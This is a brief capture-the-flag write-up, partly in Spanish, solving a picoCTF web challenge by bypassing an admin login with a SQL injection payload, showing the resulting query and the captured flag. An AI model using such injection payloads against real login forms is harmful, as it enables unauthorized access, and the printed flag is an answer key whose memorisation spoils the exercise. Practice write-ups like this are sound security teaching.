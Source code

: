 ## Descripcion
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas 
****** 
## Solucion
```sql
--password: ' BE ''='
SQL query: SELECT * FROM admin where password = '' OR ''=''
```
```
# Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
## bandera
picoCTF{3v3n_m0r3_SQL_7f5767f6}

## Notas adicionales 
payloadbox

## Referencias